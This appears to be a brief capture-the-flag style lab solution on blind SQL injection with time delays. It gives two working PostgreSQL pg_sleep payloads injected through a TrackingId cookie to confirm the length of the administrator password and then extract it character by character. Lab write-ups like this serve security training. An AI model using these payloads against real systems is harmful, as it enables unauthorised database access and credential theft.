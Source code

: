 # Lab 17: Blind SQL Injection with Time Delays and Information Retrieval

* **Solution**: Use pg_sleep in TrackingId to confirm the admin password length, then extract it character-by-character with delays.
* **Final Payloads**:
  * TrackingId=xyz'; SELECT CASE WHEN LENGTH((SELECT password FROM users WHERE username='administrator'))=20 THEN pg_sleep(10) ELSE pg_sleep(0) END -- (confirm length)
  * TrackingId=xyz'; SELECT CASE WHEN SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a' THEN pg_sleep(10) ELSE pg_sleep(0) END -- (repeat for each position)